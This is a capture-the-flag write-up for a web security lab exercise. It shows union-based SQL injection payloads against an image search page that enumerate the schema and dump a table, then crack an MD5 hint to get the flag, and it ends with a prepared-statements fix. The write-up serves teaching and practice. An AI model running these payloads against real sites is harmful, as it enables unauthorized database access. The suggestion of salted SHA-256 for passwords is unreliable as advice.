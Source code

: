 # Where: <br>
    /?page=searchimg
# How:
-By entering:

    -1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (table_name) from information_schema.tables where table_schema = database () 
    Title: list_images
    Url :
    
-This tells us that the only table is *list_images*.

-We then enter:

    -1 union select null, concat (column_name) from information_schema.columns where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: id
    Url : 
    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: url
    Url : 
    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: title
    Url : 
    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: comment
    Url :
    
-This tells us that there are the following columns: *id*, *url*, *title* and *comment*.

-We then enter:

    -1 union select NULL, concat (id, url, title, comment) from list_images

-We get all the images' information.
-The 5th image has the following comment that give us a string and instructions:

    Hack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

-If we decrypt *1928e8083cf461a51303633093573c46* at [MD5 Online](https://www.md5online.org/md5-decrypt.html) we receive the word *albatroz*
-Which we then hash using sha256 at [sha256 hash calculator](https://xorbin.com/tools/sha256-hash-calculator) to receive the flag.

# Flag:
    f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

# Possible abuses:
Hackers could potentially access all info in your BD even hashed passwords could potentially be decrypted using sites.

# Fix:
Use [prepared statements](https://www.w3schools.com/php/php_mysql_prepared_statements.asp) to prevent sql injections.
I do also believe sha256 is a better hash to use especialy when combined with a salt.
